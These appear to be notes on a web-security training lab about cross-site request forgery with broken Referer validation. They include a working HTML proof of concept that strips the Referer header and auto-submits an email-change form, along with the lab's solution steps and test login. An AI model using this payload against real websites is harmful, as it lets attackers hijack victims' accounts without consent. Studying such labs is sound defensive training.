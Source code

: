 CSRF POC

```html
<html>
  <head><meta name="referrer" content="never"></head>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a82008204ac3129c0c9869200940025.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener1&#64;normal&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
                    </li>
                    <li>
                        Send the request to Burp Repeater and observe that if you change the domain in the Referer HTTP header then the request is rejected.
                    </li>
                    <li>
                        Delete the Referer header entirely and observe that the request is now accepted.
                    </li>
                    <li>
                        <p>
                            Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Include the following HTML to suppress the Referer header:
                        </p>
                        <code class="code-scrollable">&lt;meta name="referrer" content="no-referrer"&gt;</code>
                    </li>
                    <li>
                        Store the exploit, then click "Deliver to victim" to solve the lab.
                    </li>
                </ol>
            </div>
        </div>


### CSRF with broken Referer validation

> This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.
>
> To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
>
> You can log in to your own account using the following credentials: wiener:peter 
